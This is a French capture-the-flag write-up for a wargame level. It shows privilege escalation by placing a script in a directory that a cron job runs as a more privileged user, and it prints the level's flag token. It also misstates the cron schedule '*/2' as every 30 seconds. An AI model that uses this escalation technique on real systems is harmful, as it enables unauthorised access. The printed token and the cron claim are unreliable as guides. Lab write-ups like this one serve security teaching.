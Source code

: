 # Level05

À la connexion au niveau nous reçevons une notification :

```bash
You have new mail.
```

On consulte donc nos mails :

```bash
$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

Le mail contient une tâche cron qui va exécuter <code>/usr/sbin/openarenaserver</code> toutes les 30 secondes avec les droits de flag05.

```bash
$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

Ce script exécute tous les scripts contenus dans le dossier <code>/opt/openarenaserver/</code> puis les supprime.

On place donc un script qui exécute la commande getflag dans ce dossier :

```bash
$ echo "getflag > /tmp/token" > /tmp/getflag.sh
$ mv /tmp/getflag.sh /opt/openarenaserver/getflag.sh
$ ls /opt/openarenaserver/
getflag.sh
```

On attends que le fichier disparaisse pour récupérer notre résultat :

```bash
$ cat /tmp/token
Check flag.Here is your token : viuaaale9huek52boumoomioc
```
